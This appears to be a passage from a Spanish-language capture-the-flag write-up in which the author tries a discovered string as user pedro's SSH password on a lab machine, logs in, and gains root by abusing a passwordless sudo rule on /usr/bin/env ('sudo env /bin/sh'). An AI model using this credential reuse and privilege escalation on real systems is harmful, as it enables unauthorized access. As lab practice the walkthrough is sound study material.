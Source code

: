 ![image](https://github.com/user-attachments/assets/ae573e23-8e6c-44a1-86a3-a98e7802e668)

```
noacertarasosi
```

Despues de dsar varias vueltas al asunto, recuerdo que tenemos otro usuario: pedro
Tal vez esto sea un password.
Intento conexion por ssh con el usuario pedro y la contraseña noacertarasosi


```
└─# ssh pedro@172.18.0.2                                  
pedro@172.18.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.15-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu May 30 10:36:42 2024 from 172.17.0.1
pedro@6941a520760d:~$ 
```
Genial!

Vuelvo a probar sudo -l con el usuario pedro

```
pedro@6941a520760d:~$ sudo -l
Matching Defaults entries for pedro on 6941a520760d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pedro may run the following commands on 6941a520760d:
    (ALL) NOPASSWD: /usr/bin/env
```
Podemos ejecutar como sudo el comando /usr/bin/env

Buscamos en GTFOBins si existe exploit.
Es bastante sencillo: sudo env /bin/sh

```
pedro@6941a520760d:~$ sudo env /bin/sh
# whoami
root
# 
```
FIN.

